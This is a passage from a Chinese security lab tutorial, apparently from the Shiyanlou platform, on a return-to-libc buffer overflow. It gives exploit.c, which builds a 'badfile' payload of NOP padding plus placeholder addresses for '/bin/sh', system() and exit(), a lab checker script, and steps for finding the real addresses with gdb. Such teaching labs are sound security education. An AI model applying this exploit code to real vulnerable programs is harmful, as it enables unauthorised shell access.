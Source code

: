 ###3.3 攻击程序

在 `/home/shiyanlou` 目录下新建 `exploit.c` 文件，内容如下：

```c
/* exploit.c */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
 char buf[40];
 FILE *badfile;
 badfile = fopen(".//badfile", "w");
 
 strcpy(buf, "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90");// nop 24 times
  
 *(long *) &buf[32] =0x11111111; // "//bin//sh"
 *(long *) &buf[24] =0x22222222; // system()
 *(long *) &buf[36] =0x33333333; // exit()
 fwrite(buf, sizeof(buf), 1, badfile);
 fclose(badfile);
}
```

代码中“0x11111111”、“0x22222222”、“0x33333333”分别是 BIN_SH、system、exit 的地址，需要我们接下来获取。

```checker
- name: check exploit.c
  script: |
    #!/bin/bash
    ls /home/shiyanlou/exploit.c
  error: /home/shiyanlou/ 目录下没有 exploit.c 文件
```

###3.4 获取内存地址

####1、用刚才的 getenvaddr 程序获得 BIN_SH 地址：

![3.4-1](https://doc.shiyanlou.com/document-uid8797labid754timestamp1526547920065.png)

####2、gdb 获得 system 和 exit 地址：

![3.4-2](https://doc.shiyanlou.com/document-uid8797labid754timestamp1526548112491.png/wm)

>  退出gdb调试：按 `q` 再按 `enter` ，再输入 `y` 。
>
>  实际操作中得到的地址和我的不同，需要改成你自己实际得到的地址。

修改 `exploit.c` 文件，填上刚才找到的内存地址：

![3.4-3](https://doc.shiyanlou.com/document-uid8797labid754timestamp1526548175344.png)

删除刚才调试编译的 exploit 程序和 badfile 文件，重新编译修改后的 exploit.c：
